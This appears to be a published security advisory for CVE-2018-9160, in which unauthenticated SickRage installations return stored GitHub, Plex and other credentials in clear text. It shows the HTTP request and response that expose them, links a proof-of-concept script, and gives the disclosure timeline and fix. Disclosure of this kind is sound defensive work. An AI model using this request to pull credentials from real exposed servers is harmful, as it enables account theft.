 # Sickrage cleartext github credentials CVE-2018-9160
---------------------------------------------------------------------

1. About

---------------------------------------------------------------------
Exploit Title: SickRage Clear-Text Credentials in HTTP Response  
Date: 2018-04-01  
Exploit Author: Sven Fassbender  
Contact: https://twitter.com/mezdanak  
Vendor Homepage: https://sickrage.github.io  
Software Link: https://github.com/SickRage/SickRage  
Version: < v2018.03.09-1  
CVE : CVE-2018-9160  
Category: webapps  

---------------------------------------------------------------------

2. Background information

---------------------------------------------------------------------
"SickRage is an automatic Video Library Manager for TV Shows.  
It watches for new episodes of your favourite shows, and when they are posted it does its magic:   
automatic torrent/nzb searching, downloading, and processing at the qualities you want." --extract from https://sickrage.github.io  

---------------------------------------------------------------------

3. Vulnerability description

---------------------------------------------------------------------
SickRage returns clear-text credentials for e.g. GitHub, AniDB, Kodi, Plex etc. in HTTP responses.  
Prerequisite is that the user did not set a username and password for their SickRage installation. (not enforced, default)  
  
HTTP request:  
GET /config/general/ HTTP/1.1  
Host: 192.168.1.13:8081  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
Accept-Language: de,en-US;q=0.7,en;q=0.3  
Accept-Encoding: gzip, deflate  
Referer: http://192.168.1.13:8081/config/backuprestore/  
DNT: 1  
Connection: close  
Upgrade-Insecure-Requests: 1  
  
  
HTTP response:  
HTTP/1.1 200 OK  
Content-Length: 113397  
Vary: Accept-Encoding  
Server: TornadoServer/4.5.1  
Etag: "e5c29fe99abcd01731bec1afec0e618195f1ae37"  
Date: Fri, 02 Mar 2018 10:47:51 GMT  
Content-Type: text/html; charset=UTF-8  
  
  
<!DOCTYPE html>  
<html lang="nl_NL">  
    <head>  
		[...]  
        <input type="text" name="git_username" id="git_username" value="email@example.com" class="form-control input-sm input300" autocapitalize="off" autocomplete="no" />  
        [...]  
        <input type="password" name="git_password" id="git_password" value="supersecretpassword" class="form-control input-sm input300" autocomplete="no" autocapitalize="off" />  
		[...]  
        </div>  
    </body>  
</html>  
  
---------------------------------------------------------------------

4. Proof of Concept

---------------------------------------------------------------------
https://github.com/mechanico/sickrageWTF/blob/master/get_github_creds_sickrage.py  

---------------------------------------------------------------------

5. Timeline

---------------------------------------------------------------------
[2018-03-07] Vulnerability discovered  
[2018-03-08] Vendor contacted  
[2018-03-08] Vendor replied  
[2018-03-09] Vulnerability fixed. (https://github.com/SickRage/SickRage/compare/v2018.02.26-2...v2018.03.09-1)  
  
---------------------------------------------------------------------

6. Recommendation

---------------------------------------------------------------------
Update the SickRage installation on v2018.03.09-1 or later.  
Protect the access to the web application with proper user credentials.  
  
---------------------------------------------------------------------
